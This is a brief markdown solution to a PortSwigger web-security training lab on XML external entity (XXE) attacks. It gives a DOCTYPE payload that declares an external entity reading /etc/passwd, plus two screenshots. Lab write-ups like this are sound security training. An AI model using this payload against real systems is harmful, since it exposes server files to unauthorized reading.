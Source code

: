 # Lab: Exploiting XXE using external entities to retrieve files

**Link**: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

**Solution**:
just inject entity 

```xml
<!DOCTYPE foo [
<!ENTITY test SYSTEM "file:///etc/passwd" >
]>
```

<p align="center" width="100%">
  <img src="image1.png" width="800" hight="500"/>
</p>

<p align="center" width="100%">
  <img src="image2.png" width="800" hight="500"/>
</p>
